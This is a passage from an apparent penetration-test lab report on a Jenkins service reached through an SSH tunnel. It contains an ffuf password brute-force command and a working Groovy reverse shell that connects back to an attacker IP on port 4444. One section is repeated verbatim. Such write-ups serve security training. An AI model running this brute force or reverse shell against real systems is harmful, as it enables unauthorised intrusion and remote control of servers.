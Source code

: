 **Proof of Concept Code Here:**
```bash
#Attack Box
ssh -L 9005:172.17.0.2:8080 aubreanna@internal.thm
```

##### Lateral Movement - Authenticated User (Internal Services)

**System Proof Screenshot:** 

**Vulnerability Explanation:** Using the ssh proxy to the Jenkins service, [Alphaging] was able to brute force the user credentials of the admin user of the service [Alphaging]  was then able to run an arbitrary groovy script to obtain a reverse shell using the new user from within the Jenkins container. 

**Vulnerability Fix:** Configure authentication timeouts, max number of failed attempts, and other best practices for the Jenkins service to mitigate brute force attempts. Ensure logging is configured to report anomalies to SEIM and/or centralized logging systems for detection by SOC Analysts.

**Severity:** Critical

**Steps to reproduce the attack:**
```bash
ffuf -request Artifacts/jenkins_request -request-proto http -w /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-10000.txt
```

**Proof of Concept Code Here:**
```groovy
String host="10.11.93.71";int port=4444;String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

##### Lateral Movement - Authenticated User (Internal Services)

**System Proof Screenshot:** 

**Vulnerability Explanation:** Using the ssh proxy to the Jenkins service, [Alphaging] was able to brute force the user credentials of the admin user of the service [Alphaging]  was then able to run an arbitrary groovy script to obtain a reverse shell using the new user from within the Jenkins container. 

**Vulnerability Fix:** Configure authentication timeouts, max number of failed attempts, and other best practices for the Jenkins service to mitigate brute force attempts. Ensure logging is configured to report anomalies to SEIM and/or centralized logging systems for detection by SOC Analysts.

**Severity:** Critical

**Steps to reproduce the attack:**
```bash
ffuf -request Artifacts/jenkins_request -request-proto http -w /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-10000.txt
```
